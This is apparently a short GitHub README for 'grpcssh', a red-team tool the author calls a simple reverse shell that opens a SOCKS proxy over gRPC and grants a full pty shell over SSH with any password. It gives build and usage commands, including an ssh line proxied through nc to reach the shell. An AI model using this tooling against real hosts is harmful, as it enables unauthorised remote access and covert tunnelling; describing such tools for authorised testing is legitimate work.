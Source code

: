 # `grpcssh` (now with proper concurrent socks)
```
better explained over at https://tishina.in/ops/grpcssh
an extension over grpc-ssh-socks. this can be considered a simple reverse shell. on connect,
a socks proxy is opened by the server. connecting over ssh to a hardcoded ip address with
an arbitrary password grants a full pty shell.

DNS resolution is very simple and done via an SSH "session" channel in the form of Write(addr), Read(ip)

for the pty shell, full credit goes to https://gist.github.com/jpillora/
here it is, kind of working:
```
![image](https://github.com/zimnyaa/grpcssh/assets/502153/b3e4fce7-8ba4-46ce-9cff-d62fa4f7290f)

```
~/grpcssh$ make 
to build this even more abominable thing. 
~/grpcssh$ ssh -o ProxyCommand="nc -x localhost:1080 %h %p" -o "UserKnownHostsFile=/dev/null" root@1.1.1.1
to get a shell.
```
